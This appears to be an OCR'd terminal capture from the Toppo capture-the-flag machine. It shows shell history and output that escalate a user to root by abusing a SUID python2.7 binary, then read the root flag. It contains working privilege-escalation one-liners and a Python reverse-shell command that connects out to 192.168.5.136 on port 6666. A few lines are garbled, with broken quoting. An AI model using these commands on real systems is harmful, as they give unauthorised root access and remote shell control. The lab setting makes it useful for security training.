 ```bash
sudo su
su root
whoami
find / -perm -u=s -type f 2>/dev/null

find / -perm -u=s -type f 2>/dev/null
/usr/bin/python2.7 -c import os;os.execl("/bin/sh","sh","-p")'
./python -c import os;os.execl("/bin/sh","sh","-p")'
/usr/bin/python2.7 -c 'import pty;pty.spawn("/bin/sh")'
clear
/usr/bin/python2.7 -c 'import pty;pty.spawn("/bin/sh")'
clear
exit
clear
/usr/bin/python2.7 -c 'import pty;pty.spawn("/bin/sh")'
clear
/usr/bin/python2.7 -c 'import pty;pty.spawn("/bin/sh")'
clear
/usr/bin/python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.136",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
clear
/usr/bin/python2.7 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.136",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
exit


ted@Toppo:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/python2.7
/usr/bin/chsh
/usr/bin/at
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/procmail
/usr/bin/passwd
/bin/su
/bin/umount
/bin/mount

ted@Toppo:~$ cat /etc/sudoers
ted ALL=(ALL) NOPASSWD: /usr/bin/awk

ted@Toppo:~$ /usr/bin/python2.7 -c 'import pty;pty.spawn("/bin/sh")'
# whoami
root
# ls
a
# cd /root
# ls
flag.txt
# cat flag.txt
_________
|  _   _  |
|_/ | | \_|.--.   _ .--.   _ .--.    .--.
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \
```